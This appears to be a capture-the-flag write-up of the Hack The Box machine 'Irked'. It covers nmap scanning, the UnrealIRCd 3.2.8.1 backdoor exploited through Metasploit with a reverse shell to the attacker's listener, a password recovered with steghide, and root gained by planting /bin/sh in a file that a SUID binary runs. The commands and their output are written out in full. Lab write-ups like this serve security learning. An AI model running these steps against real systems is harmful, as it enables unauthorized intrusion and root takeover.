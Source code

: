 I run nmap on the victim IP and find 7 different ips running on the server. Several of which are running IRC, specifically Unreal IRCD.

```
nmap -p- -sC -sV {victim ip}
```

There is an exploit available in Unreal IRCD 3.2.8.1, CVE-2010-2075, which contains an externally introduced modification, which allows remote attackers to execute commands.

Using metasploit, I search for this CVE, and find one good exploit. After setting necessary options I find I am unable to run the exploit. The reason I was unable to run the exploit is I did not set a *payload*. 

```
$ msfconsole

...

[msf](Jobs:0 Agents:0) >> search CVE-2010-2075

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  No     UnrealIRCD 3.2.8.1 Backdoor Command Execution

[msf](Jobs:0 Agents:0) >> use 0
[msf](Jobs:0 Agents:0) exploit(unix/irc/unreal_ircd_3281_backdoor) >> options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    6667             yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) exploit(unix/irc/unreal_ircd_3281_backdoor) >> set RPORT 8067
RPORT => 8067
[msf](Jobs:0 Agents:0) exploit(unix/irc/unreal_ircd_3281_backdoor) >> set RHOSTS 10.129.125.75
RHOSTS => 10.129.125.75
[msf](Jobs:0 Agents:0) exploit(unix/irc/unreal_ircd_3281_backdoor) >> exploit

[-] 10.129.125.75:8067 - Exploit failed: A payload has not been selected.
[*] Exploit completed, but no session was created.
[msf](Jobs:0 Agents:0) exploit(unix/irc/unreal_ircd_3281_backdoor) >> set RPORT 6697
RPORT => 6697
[msf](Jobs:0 Agents:0) exploit(unix/irc/unreal_ircd_3281_backdoor) >> exploit

[-] 10.129.125.75:6697 - Exploit failed: A payload has not been selected.
[*] Exploit completed, but no session was created.
```

Admittedly, I was not able to run this exploit and spun my wheels for a while. If I get the error:

```
[*] Exploit completed, but no session was created.
```

I should consider setting a payload that will callback to my listening server. 

*Important to follow steps*

While in my chosen exploit I `show payloads` then `set payload x`, which links my chosen exploit with my chosen payload. After setting the payload, `options` to set payload options. Finally, I run exploit:

```
[msf](Jobs:0 Agents:0) exploit(unix/irc/unreal_ircd_3281_backdoor) >> set payload cmd/unix/reverse_perl
payload => cmd/unix/reverse_perl
[msf](Jobs:0 Agents:0) exploit(unix/irc/unreal_ircd_3281_backdoor) >> options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.129.125.75    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   65534            yes       The target port (TCP)


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.207     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) exploit(unix/irc/unreal_ircd_3281_backdoor) >> exploit

[*] Started reverse TCP handler on 10.10.14.207:4444 
[*] 10.129.125.75:65534 - Connected to 10.129.125.75:65534...
    :irked.htb NOTICE AUTH :*** Looking up your hostname...
[*] 10.129.125.75:65534 - Sending backdoor command...
[*] Command shell session 1 opened (10.10.14.207:4444 -> 10.129.125.75:46754) at 2024-10-21 17:26:42 -0500

python3 -c 'import pty;pty.spawn("/bin/bash")'
ircd@irked:~/Unreal3.2$ ls -la
```

Setting the payload and running `exploit`, gets a local shell on the target's box.

#### Lateral Movement

A file called `.backup` is found

```
ircd@irked:/home/djmardov/Documents$ cat .backup
cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

I download the file and use `steghide` to extract.

```
wget http://10.10.10.117/irked.jpg
steghide extract -p UPupDOWNdownLRlrBAbaSSss -sf irked.jpg
```

This is written to pass.txt, and I cat the file to get `djmardov`'s password.

To get a shell on `djmardov`, use ssh and the pw:

```
ssh djmardov@{victim ip}
```
I find a file `/usr/bin/viewuser`, that is accessible and executable by root. When executing it, it runs a file `/tmp/listusers`.

I download the file locally:

```
$ scp djmardov@10.10.10.117:/usr/bin/viewuser viewuser
$ ltrace ./viewuser
```

I exploit this by creating the file `/tmp/listusers` and have it execute a shell, which is of course owned by root.

```
$ echo​ ​'/bin/sh'​ > /tmp/listusers 
$ chmod a+x /tmp/listusers 
$ /usr/bin/viewuser
# whoami
uid=0(root) ...

# cat /root/root.txt
1ab8903b9fb16ff9d51e2434e16789b7
```









